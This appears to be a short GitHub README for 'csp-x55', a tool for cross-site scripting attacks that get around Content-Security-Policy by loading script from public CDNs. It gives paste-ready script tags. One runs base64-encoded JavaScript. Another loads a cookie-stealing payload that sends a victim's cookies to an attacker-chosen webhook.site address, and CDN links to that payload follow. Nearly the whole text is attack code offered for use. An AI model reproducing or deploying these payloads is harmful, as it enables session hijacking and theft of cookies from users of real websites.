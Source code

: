 # csp-x55
XSS by bypassing Content-Security-Policy through CDN.



Example usage using `alert('xss');` in base64 `YWxlcnQoJ3hzcycpOw==`:
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@b983bf3b472cbe70c18209ac35ccb80bf73ca2d4/x55.js?c=YWxlcnQoJ3hzcycp">
```

Example extracting cookies:
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js" r="https://webhook.site/youridhere"></script>
```

Example CDN links:
https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js
https://cdn.statically.io/gh/GramThanos/csp-x55/766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js
